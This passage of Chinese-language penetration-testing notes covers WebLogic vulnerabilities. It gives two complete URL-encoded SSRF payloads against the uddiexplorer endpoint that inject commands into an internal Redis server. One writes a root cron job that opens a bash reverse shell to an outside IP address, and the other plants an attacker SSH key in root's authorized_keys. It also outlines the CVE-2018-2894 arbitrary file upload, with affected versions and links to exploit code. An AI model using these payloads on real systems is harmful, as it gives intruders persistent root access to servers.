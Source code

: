 ```
            print(f'[*] http://172.19.0.{i}:{port}')
```

### SSRF攻击内网Redis
- 写定时任务
```
/uddiexplorer/SearchPublicRegistries.jsp?operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%20x%20%22%5Cn%5Cn%5Cn%5Cn*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%20>%26%20%2Fdev%2Ftcp%2F124.71.45.28%2F1234%200>%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fvar%2Fspool%2Fcron%2Fcrontabs%2F%0D%0Aconfig%20set%20dbfilename%20root%0D%0Asave%0D%0A%0D%0Aaaa&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
- 写SSH公钥
```
/uddiexplorer/SearchPublicRegistries.jsp?operator=http://172.18.0.1:6379/test%0D%0A%0D%0Aset%20xx%20%22%5Cn%5Cn%5Cn%5Cnssh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQDV14i/SITCBQjzb%2B8xL0vwGwKjnMEQiarTxdVokFToK0Xw99m0eJwKV3WcTQgSykHA2rFxbQw%2Fv9IVx89bAzX0iOBAU8jF%2B9oH5KE9KBzM%2FT1Vr3DDwmNny2qYCfizO9jJ90fr3DUeXWwl%2BD24XiKfkDzlDly9LgEYxXl%2FCIgZ91QcTA0UeSBLXCgigVLKhDNZGGBqMFrGNUsj0esNJr7pJsYEnIn%2BN5BtnUWEce1KERlGDiwvzRpyFvOKgQpEAiS%2BR781GSsAsJsCQz8OFge6lx0iSMNZ6TWjkQYKlnTkQvzOo%2FZhINtItYziRXJKmNQLdPpQ7OYo2WOQ4TIDFtR5%20root@iZuf6jc5pa52ijq06q5f1lZ%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Froot%2F.ssh%0D%0Aconfig%20set%20dbfilename%20authorized_keys%0D%0Asave%0D%0A%0D%0Aaaa&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business%2Blocation&btnSubmit=Search
```

## CVE-2018-2894
- Weblogic未授权任意文件上传, 位于`Weblogic Web Service Test Page`中, 该页面在"生产模式"下默认不开启. 只要开启, 就可以上传任意jsp文件获取权限
- 影响Oracle WebLogic Server版本
	- 10.3.6.0
	- 12.1.3.0
	- 12.2.1.2
	- 12.2.1.3
- 影响页面: web服务测试页面, 默认不启用
	- `/ws_utc/config.do`
	- `/ws_utc/begin.do`
	- 登录控制台->base_domain->高级->勾选启用Web服务测试页 ->保存
### 漏洞复现
- `/root/Oracle/Middleware/user_projects/domains/base_domain`
https://vulhub.org/#/environments/weblogic/CVE-2018-2894/
https://blog.riskivy.com/weblogic-cve-2018-2894/

### 漏洞利用
https://github.com/LandGrey/CVE-2018-2894
https://github.com/jas502n/CVE-2018-2894

https://blog.riskivy.com/weblogic-cve-2018-2894
https://www.freebuf.com/vuls/178510.html
https://www.jianshu.com/p/0b0471aa9bcb
https://github.com/111ddea/cve-2018-2894
https://vulhub.org/#/environments/weblogic/CVE-2018-2894/
https://blog.riskivy.com/weblogic-cve-2018-2894/

